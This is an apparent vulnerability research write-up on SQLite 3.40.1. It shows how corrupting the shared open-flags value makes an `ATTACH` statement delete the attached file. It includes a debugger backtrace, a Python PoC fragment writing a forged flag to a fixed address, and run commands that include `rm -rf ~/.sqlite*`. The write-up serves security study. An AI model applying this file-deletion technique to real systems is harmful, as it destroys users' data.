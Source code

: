 # isDelete

## Program

[SQLite 3.40.1](https://github.com/sqlite/)

## Description

In SQLite, the `ATTACH` command is used to attach a database file to current database connection. The syntax is `attach path/to/db_file as xxx`

SQLite will call `attachFunc` to handle the statement and will finally call `unixOpen` to open the db file.
```
#0  unixOpen (pVfs=0x6495c0 <sqlite3_os_init.aVfs>, 
    zPath=0x6960cc "/home/hfy5130/sqlite_versions/sqlite/hello", pFile=0x695f40, flags=0x106, 
    pOutFlags=0x7fffffffad14) at sqlite3.c:42758
#1  0x0000000000476225 in sqlite3OsOpen (pVfs=0x6495c0 <sqlite3_os_init.aVfs>, 
    zPath=0x6960cc "/home/hfy5130/sqlite_versions/sqlite/hello", pFile=0x695f40, flags=0x106, 
    pFlagsOut=0x7fffffffad14) at sqlite3.c:24987
#2  0x0000000000475018 in sqlite3PagerOpen (pVfs=0x6495c0 <sqlite3_os_init.aVfs>, ppPager=0x695910, 
    zFilename=0x695894 "hello", nExtra=0x88, flags=0x0, vfsFlags=0x106, xReinit=0x475600 <pageReinit>)
    at sqlite3.c:60080
#3  0x000000000047425f in sqlite3BtreeOpen (pVfs=0x6495c0 <sqlite3_os_init.aVfs>, 
    zFilename=0x695894 "hello", db=0x6862e0, ppBtree=0x693b28, flags=0x0, vfsFlags=0x106) at sqlite3.c:70718
#4  0x0000000000578c9c in attachFunc (context=0x6938e0, NotUsed=0x3, argv=0x693910) at sqlite3.c:116024
```

In `unixOpen`, `isDelete` is calculated from `flag` and used to determine whether to delete the attached db file.
```c
int isDelete     = (flags & SQLITE_OPEN_DELETEONCLOSE);
  if( isDelete ){
    '''
    osUnlink(zName);
  }
```

In order to set `isDelete` to true, we need to set `flag` to proper value. We notice that the last time the value of `flag` changed is `flags = db->openFlags` in `attachFunc`. We also found that `db->openFlags` is a variable used by all databases. Therefore, we can corrupt `db->openFlags` before executing `attach hello as h`. Then, the `attach` statement set `isDelete` to true based on forged `db->openFlags` and delete target file.

Note: 
1. There are some `assert` checks, which are hard to bypass. However, in released version, these `assert` are disabled.
2. `create` statement will also initialize a `db->openFlags`.

## Attack in the wild

### Gain arbitrary memory-write primitive

We reuse the [bug](../SQLite-doXdgOpen/analysis.md/#gain-arbitrary-memory-write-primitive).

### PoC

We need t exploit the vulnerability to corrupt `db->openFlags`. We disabled ASLR in this attack, so the address of p and faked structures are fixed. Bypassing ASLR is also feasible as demonstrated in page 60 of the slide. The complete PoC can be found in [poc.py](./poc.py).

```py
# The address of openFlags
openFlags = 0x651a6c
# set zMalloc in sqlite3_value
exp = writeVal(exp, sqlite3_value_off + 0x40, openFlags, 8)
# set the value of openFlags
exp = writeVal(exp, src_off, 0x100e, 4)
```

```
// exploit
rm -rf ~/.sqlite*
./isDelete-exp.py
gdb ./sqlite3
    r < /tmp/exp
```
